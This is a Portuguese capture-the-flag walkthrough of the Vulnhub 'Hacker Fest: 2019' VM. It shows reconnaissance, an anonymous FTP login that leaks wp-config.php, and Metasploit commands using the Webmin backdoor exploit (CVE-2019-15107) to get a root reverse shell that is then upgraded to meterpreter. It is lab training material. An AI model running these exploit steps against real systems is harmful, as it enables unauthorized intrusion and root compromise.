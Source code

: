 ```yaml
---
title: "Pwning - Hacker Fest: 2019"
date: 2023-12-02 00:00:00 -0300
categories: [Vulnhub, Beco do Exploit]
tags: [Wordpress, Webmin, Metasploit]
---
```


**Material de Apoio**

* Download da VM: [https://www.vulnhub.com/entry/hacker-fest-2019,378/](https://www.vulnhub.com/entry/hacker-fest-2019,378/)

* CVE-2019–15107: [https://nvd.nist.gov/vuln/detail/CVE-2019-15107](https://nvd.nist.gov/vuln/detail/CVE-2019-15107)

---

## **Reconhecimento**

Podemos começar acessando a máquina via browser, para saber se havia uma página Web ali, e voilà!

![](https://cdn-images-1.medium.com/max/2732/0*OKOSabGbfhj4DEst)

Com essa informação, podemos levantar as tecnologias utilizadas. Para isso a ferramenta [Wappalyzer](https://www.wappalyzer.com/) nos serviu muito bem.

![](https://cdn-images-1.medium.com/max/2000/1*fVLaSQcgIBPRdmmGSHWxsA.png)

Sabendo foi construída com Wordpress, podemos tentar encontrar plugins desatualizados e com vulnerabilidades conhecidas que nos permita a exploração.

Para isso, vamos usar a ferramenta [WPScan](https://github.com/wpscanteam/wpscan).

![](https://cdn-images-1.medium.com/max/2000/1*7NpMdHnSt-eBbdWgXcjpiQ.png)

Embora que alguns plugins tenham sido identificados, não parecem vulneráveis.

A fim de aumentar a superfície de ataque, fizemos um scan através do [Nmap](https://nmap.org/) para listar todos as portas e serviços expostos, sem nos preocuparmos com o barulho gerado:

![](https://cdn-images-1.medium.com/max/2000/1*1Ucp4Zs6UHzwWCEtj7E1HA.png)

Agora que temos os serviços do alvo com versões, procuraremos por exploits conhecidos com o [searchsploit](https://www.exploit-db.com/searchsploit).

Começando a buscar exploits para a versão do FTP. Encontramos um que causa DoS, porém esse não é nosso objetivo com essa máquina.

![](https://cdn-images-1.medium.com/max/2000/1*QZDBl8SayGEBREl-cbtxEw.png)

Logo após, fizemos o mesmo para a versão do OpenSSH, porém nada que nos permita o acesso remoto, apenas algumas que englobam enumeração de usuários, mas momento não é isso que precisamos.

![](https://cdn-images-1.medium.com/max/2128/1*9b4N0LSvUeZ1sIu4wX6B3Q.png)

Depois disso, procuramos por exploits para a versão do Apache, porém as possibilidades de exploração do serviço HTTP são muitas, então preferimos não priorizar isso.

![](https://cdn-images-1.medium.com/max/2258/1*yTVoecxH4N3STxl42sN_kw.png)

Por fim, encontramos um exploit para o serviço Webmin.

![searchsploit webmin](https://cdn-images-1.medium.com/max/2332/1*qRL9fD70OSBKYxJFSw6byQ.png)

---

## **Exploração**

Após finalizarmos o reconhecimento do alvo, começamos a explorar os serviços.

Por desencargo de consciência, testamos o mais óbvio, logar no FTP com o usuário `anonymous`, e por incrível que pareça… Deu certo!

![](https://cdn-images-1.medium.com/max/2000/1*1vNV3dMVQtQu51dVEakHpw.png)

Conseguimos então acesso à arquivos sensíveis de configuração, como o `wp-config.php`, que podemos fazer o download com o comando `get`.

![](https://cdn-images-1.medium.com/max/2060/1*GG3Bh6TakdjiWKv6KJ0rjA.png)

Ao analisarmos esse arquivo, encontramos possíveis credenciais do database utilizado pelo Wordpress, que armazena todos os dados do site, inclusive credenciais de acesso.

Entretanto, não temos conectividade com o serviço do banco de dados, tanto que ele não foi identificado através do nmap na etapa de reconhecimento.

![](https://cdn-images-1.medium.com/max/2000/1*3CCQS7CZB7chZKKqZBvGTQ.png)

Saindo do FTP, optamos por automatizar nossa exploração com os exploits encontrados para o Webmin, através do Metasploit Framework, com a ferramenta [msfconsole](https://www.metasploit.com/download).

Voltamos a procurar por exploits, porém dessa vez um que esteja dentro da base de exploits da ferramenta msf. Encontramos um backdoor que deve servir para nosso objetivo, e então colocamos em uso.

```bash
sudo msfconsole
search webmin
use exploit/linux/http/webmin_backdoor
```
{: .lineno }

![](https://cdn-images-1.medium.com/max/2544/1*QCukcCWBboFzxQTwEC6Z-A.png)

Após o exploit estar em uso, devemos configurar os parâmetros de ataque, que variam de acordo com o seu IP e o IP do alvo.

```bash
set RHOST <ip-alvo>
set LHOST <seu-ip>
set LPORT 443
set SSL true
set ForceExploit true
```
{: .lineno }

A configuração do exploit será algo próximo disso:

![](https://cdn-images-1.medium.com/max/2296/1*r4oHhVpPBmNfR2kTVm8EUg.png)

Assim, rodando ele, será criada uma sessão de shell, já com privilégio root, que nos permite executar, remotamente, os comandos que desejarmos na máquina alvo.

![](https://cdn-images-1.medium.com/max/2082/1*ZckE3NSIZ7L3F20lGBOORg.png)

---

## **Pós-Exploração**

Depois de termos ownado a máquina, precisamos de uma shell mais potente. Para isso usamos um módulo de pós-exploração, o [shell_to_meterpreter](https://null-byte.wonderhowto.com/how-to/upgrade-normal-command-shell-metasploit-meterpreter-0166013/):

![](https://cdn-images-1.medium.com/max/2288/1*F5RpLpgsDn4xyUjoRb3hbA.png)

Agora basta acessarmos a nova shell!

![](https://cdn-images-1.medium.com/max/2056/1*cs_DOUssly41Sww11yZnDQ.png)

Prontinho, e logo no /root continha um arquivo com uma flag!

![](https://cdn-images-1.medium.com/max/2184/1*vNJTNXxEfQbpy60q4rfixQ.png)

>  Haviam outras possibilidades para o ataque, como pelo SSH — através de Brute Force — , pelo Apache — através de algum dos exploits — , ou pelo serviço Web — através de vulnerabilidades OWASP.
{: .prompt-info }

Fim! Agora é só corrigir as vulnerabilidades: sem servidor, sem falhas.

![](https://cdn-images-1.medium.com/max/2000/1*mFwCfu3e8hAvzy2j5gK58g.png)

![](https://cdn-images-1.medium.com/max/2000/0*QHb1pdY-MPzFouj7.png)
